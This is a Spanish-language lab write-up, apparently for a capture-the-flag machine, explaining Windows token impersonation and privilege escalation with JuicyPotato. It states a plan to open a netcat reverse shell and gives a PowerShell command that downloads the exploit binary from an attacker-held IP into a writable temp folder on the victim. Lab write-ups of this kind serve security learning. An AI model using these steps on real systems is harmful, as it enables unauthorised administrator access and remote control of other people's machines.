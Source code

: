 # Windows Token Impersonation
Si queremos revisar una explicación más detallada de esta vulnerabilidad podemos leer [este recurso](https://www.exploit-db.com/papers/42556). En resumen, Windows emplea tokens para establecer los permisos que tiene un usuario al momento que este inicia sesión en el sistema (conocidos como tokens de acceso). Estos pueden ser de dos tipos:

1. Primarios
2. De interpretación (impersonation). La traducción al español no es la más apropiada, ya que el término "impersonation" hace referencia a hacerse pasar por alguien más.

Este último es el que nos compete en este caso, ya que permiten a algún proceso en particular poder acceder a recursos del sistema empleando un token de algún otro proceso. Por lo tanto, si nos podemos aprovechar de esto empleando el token de un proceso iniciado por el usuario **Administrator**, entonces podríamos ejecutar acciones privilegiadas "impersonando" su token.

Cabe aclarar que esta vulnerabilidad no está presente en todos los Windows; solo se tiene conocimiento de los siguientes:

- Windows_10_Enterprise
- Windows_10_Pro
- Windows_7_Enterprise
- Windows_8.1_Enterprise
- Windows_Server_2008_R2_Enterprise
- Windows_Server_2012_Datacenter

Y claro, también dependerá de las actualizaciones con las que cuente el sistema. La manera más sencilla de explotar esta vulnerabilidad es con la herramienta **JuicyPotato**. Esta nos permitirá ejecutar el comando que queramos en el sistema sin restricción alguna. Para una explicación más detallada de su uso, puedes revisar [este recurso](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505).

**JuicyPotato** puede ser descargado desde su [repositorio](https://github.com/ohpe/juicy-potato), ya sea como código fuente para ser compilado o ya como binario. Recomiendo esta última, la cual puede descargarse desde el apartado **Fresh Potatoes** del repo en GitHub.

![15]
	
Dado que la herramienta nos permite ejecutar cualquier comando en el sistema, lo que quiero hacer es entablar una reverse shell con ayuda de netcat. Por lo tanto, requiero que tanto **JuicyPotato.exe** como **nc.exe** estén en el servidor remoto. El segundo está presente en cualquier distribución de Linux para pentesting, y puede localizarse con el comando:

	locate nc.exe
	
Para transferirlos a la máquina víctima, establecemos un servidor HTTP con Python y los recibimos en la consola de Powershell con los siguientes comandos:

	(New-Object Net.WebClient).DownloadFile('http://10.10.251.43:8080/JuicyPotato.exe','c:\windows\temp\privesc\JP.exe')
	
Nota: A diferencia de la máquina **Steel Mountain**, esta versión de **Powershell** que corre en el sistema no nos permite elecutar un **Invoke-WebRequest**, por lo que debemos hacerlo de esta otra manera.
	
Nótese cómo se ha creado un directorio en C:\Windows\Temp llamado **Privesc** desde donde realizaremos el proceso de escalada de privilegios. Esto no es necesario, pero recuerda que necesitas de un directorio con permisos de escritura para descargar los binarios.
